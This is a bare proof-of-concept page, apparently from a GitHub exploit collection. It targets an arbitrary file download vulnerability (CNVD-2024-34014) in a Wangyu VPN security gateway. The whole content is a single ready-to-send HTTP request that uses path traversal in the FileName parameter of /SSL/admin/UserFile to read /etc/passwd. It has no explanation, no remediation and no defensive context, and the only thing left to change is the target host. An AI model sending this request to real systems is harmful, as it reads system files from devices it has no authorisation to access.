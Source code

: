 # wangyu_UserFile_filedownload

```
GET /SSL/admin/UserFile?FileName=../../../etc/passwd HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

from: https://github.com/wy876/POC/blob/main/%E7%BD%91%E5%BE%A1%E6%98%9F%E4%BA%91/%E7%BD%91%E5%BE%A1VPN%E5%AE%89%E5%85%A8%E7%BD%91%E5%85%B3%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD%E6%BC%8F%E6%B4%9E(CNVD-2024-34014).md
